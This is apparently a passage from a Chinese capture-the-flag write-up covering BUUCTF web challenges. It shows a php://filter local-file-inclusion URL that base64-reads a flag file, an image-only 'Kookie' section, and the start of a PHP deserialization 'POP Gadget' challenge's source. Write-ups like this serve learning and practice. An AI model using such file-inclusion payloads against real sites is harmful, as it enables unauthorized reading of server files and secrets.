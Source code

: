 ```php
```



 构造的url中伪协议的参数部分包含woofers meowers index任意一个

构造：得到flag

```php
http://d7aba0d9-5c5b-40c0-909b-4dfa352701ed.node4.buuoj.cn:81/index.php?category=php://filter/read=convert.base64-encode/index/resource=flag
```



![img](https://img-blog.csdnimg.cn/f20b832927ac4c4193fc58a90ab90b95.png)




## [BSidesCF 2019]Kookie

![img](https://img-blog.csdnimg.cn/6f4392031ef34f94b8b48e442a149f84.png)





## [NewStarCTF 2023 week3] POP Gadget 

```php
<?php
highlight_file(__FILE__);

class Begin{
    public $name;

    public function __destruct()
    {
        if(preg_match("/[a-zA-Z0-9]/",$this->name)){
            echo "Hello";
        }else{
            echo "Welcome to NewStarCTF 2023!";
        }
    }
}

class Then{
    private $func;

    public function __toString()
    {
        ($this->func)();
        return "Good Job!";
    }

}

class Handle{
    protected $obj;

    public function __call($func, $vars)
    {
        $this->obj->end();
    }

}

class Super{
```